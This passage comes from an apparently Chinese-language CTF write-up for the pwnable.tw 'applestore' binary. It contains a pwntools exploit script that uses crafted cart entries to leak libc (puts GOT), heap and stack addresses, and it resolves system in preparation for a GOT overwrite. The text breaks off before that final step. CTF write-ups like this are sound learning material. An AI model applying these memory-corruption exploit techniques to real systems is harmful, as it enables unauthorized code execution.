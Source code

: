 接着我们要做的就是覆写劫持`delete`的ebp，写入`atoi_got+0x22`。因为允许我们输入的变量相对于`ebp`的偏移为0x22。参考上面`delete`的等价操作，只要简单的覆写`fd`和`bk`即可。

## exp

```python
from pwn import *
from LibcSearcher import LibcSearcher
from struct import pack
import sys

leak = lambda name,addr: log.success('{0} addr ---> {1}'.format(name, hex(addr)))
context.arch="amd64"
context.terminal = ['tmux', 'splitw', '-h']

binary='./applestore'
#gdb.attach(sh)
if 'g' in sys.argv[1]:
	context.log_level="DEBUG"
if 'l' in sys.argv[1] and 'r' not in sys.argv[1]:
	log.info('Test in local...')
	sh=process(binary)
if 'r' in sys.argv[1]:
	log.info('Attacking...')
	sh=remote('chall.pwnable.tw',10104)

elf = ELF(binary,checksec=False)
#libc = ELF('',checksec=False)
puts_got = elf.got['puts']
atoi_got = elf.got['atoi']
mycart = 0x804B068
add = '2';delete='3';cart='4';checkout='5'

def do(choice,payload):
	sh.sendlineafter('> ',choice)
	sh.sendlineafter('>',payload)

for i in range(6):
	do(add,b'1')
for i in range(20):
	do(add,b'2')

do(checkout,b'y') #add iphone-8

payload= b'y\x00'+p32(puts_got)+p32(0x1)+p32(mycart+8)+p32(1)
do(cart,payload)
sh.recvuntil('27: ')
puts_addr=u32(sh.recv(4))
sh.recvuntil('28: ')
heap_addr = u32(sh.recv(4))
leak('puts addr',puts_addr)
leak('heap addr',heap_addr)
libc = LibcSearcher('puts',puts_addr)
libcbase = puts_addr - libc.dump('puts')
leak('libc base',libcbase)
system = libcbase+libc.dump('system')

env = libcbase+libc.dump('environ')
payload= b'y\x00'+p32(env)+p32(0x1)+p32(mycart+8)+p32(1)
do(cart,payload)
sh.recvuntil('27: ')
stack =u32(sh.recv(4))
leak('stack',stack)

```